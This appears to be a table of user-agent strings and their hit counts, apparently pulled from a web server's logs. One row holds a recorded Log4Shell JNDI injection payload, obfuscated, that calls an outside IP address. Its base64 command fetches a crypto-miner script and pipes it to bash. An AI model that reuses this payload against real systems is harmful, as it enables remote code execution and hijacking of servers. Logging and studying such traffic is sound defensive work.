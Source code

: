 |     |   number_of_occurence | user_agent                                                                                                                                                                                                                                                                                                                     |
|----:|----------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   0 |                    38 | Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36                                                                                                                                                                                                                       |
|   1 |                     8 | Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/27.0 Chrome/125.0.0.0 Mobile Safari/537.36                                                                                                                                                                                            |
|   2 |                     7 | SonyEricssonZ800/R1Y Browser/SEMC-Browser/4.1 Profile/MIDP-2.0 Configuration/CLDC-1.1 UP.Link/6.3.0.0.0                                                                                                                                                                                                                        |
|   3 |                     6 | Mozilla/5.0 (Linux; Android 8.0.0; SM-N950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.89 Mobile Safari/537.36                                                                                                                                                                                                   |
|   4 |                     5 | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0                                                                                                                                                                                                                                                         |
|   5 |                     4 | t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//46.8.226.196:3306/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwOi8vNDYuOC4yMjYuMTk2L3NjcmlwdHMvNHRoZXBvb2xfbWluZXIuc2ggfCBiYXNoIC1zOyB3Z2V0IC1xTy0gaHR0cDovLzQ2LjguMjI2LjE5Ni9zY3JpcHRzLzR0aGVwb29sX21pbmVyLnNoIHwgYmFzaCAtcw==}') |
|   6 |                     4 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36                                                                                                                                                                                                                |
|   7 |                     3 | Xpanse, a Palo Alto Networks company, indexes customer network perimeters. If you have any questions or concerns, please reach out to: scaninfo@paloaltonetworks.com.                                                                                                                                                          |
|   8 |                     2 | Python/3.7 aiohttp/3.7.4.post0                                                                                                                                                                                                                                                                                                 |
|   9 |                     1 | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:13.0) Gecko/20100101 Firefox/13.0                                                                                                                                                                                                                                                   |
|  10 |                     1 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/603.3.8 (KHTML, like Gecko) WebClip/11603.3.8 Safari/12603.3.8                                                                                                                                                                                                     |
|  11 |                     1 | Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_1; en-US) AppleWebKit/533.4 (KHTML, like Gecko) Chrome/5.0.375.86 Safari/533.4                                                                                                                                                                                                  |
|  12 |                     1 | Mozilla/5.0 (Android 6.0; Mobile; rv:59.0) Gecko/59.0 Firefox/59.0                                                                                                                                                                                                                                                             |
|  13 |                     1 | Mozilla/5.0 (Linux; Android 4.4.2; en-gb; SAMSUNG SM-T320 Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Version/1.5 Chrome/28.0.1500.94 Safari/537.36                                                                                                                                                                   |